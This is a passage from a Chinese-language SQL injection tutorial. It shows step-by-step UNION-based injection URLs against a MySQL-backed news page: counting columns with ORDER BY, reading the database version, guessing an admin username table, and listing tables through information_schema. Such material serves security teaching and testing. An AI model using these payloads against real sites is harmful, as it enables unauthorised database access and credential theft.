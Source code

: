 使用 ORDER BY  
 语句逐步测试列数，直到出现错误。如下所示：  
```
http://www.example.com/news.php?id=5' order by 1-- -- ← 无错误
http://www.example.com/news.php?id=5' order by 2-- -- ← 无错误
http://www.example.com/news.php?id=5' order by 3-- -- ← 无错误
http://www.example.com/news.php?id=5' order by 4-- -- ← 出现错误

```  
  
当 order by 4  
 报错时，说明该表有 **3列**  
。  
#### 2.2 使用 UNION 查询数据  
  
将列位置替换为数据查询：  
```
http://www.example.com/news.php?id=5' union all select 1,2,3-- --
```  
  
如果页面显示数字 1  
、2  
 或 3  
，说明查询成功。  
#### 2.3 检查 MySQL 版本  
  
将显示的数字替换为 @@version  
 或 version()  
 查询 MySQL 版本：  
```
http://www.example.com/news.php?id=5' union all select 1,@@version,3-- --
```  
  
返回结果如 5.0.45  
，即为 MySQL 版本。  
### 3. 获取表名与列名  
#### 3.1 MySQL 版本小于 5 的情况  
  
在 MySQL 版本小于 5 时，我们需要猜测表名和列名。例如：  
```
http://www.example.com/news.php?id=5' union all select 1,username,3 from admin-- --
```  
  
如果页面显示用户名，说明表名为 admin  
，列名为 username  
。  
#### 3.2 MySQL 版本大于等于 5 的情况  
  
使用 information_schema  
 获取表名和列名：  
```
http://www.example.com/news.php?id=5' union all select 1,table_name,3 from information_schema.tables-- --
```  
  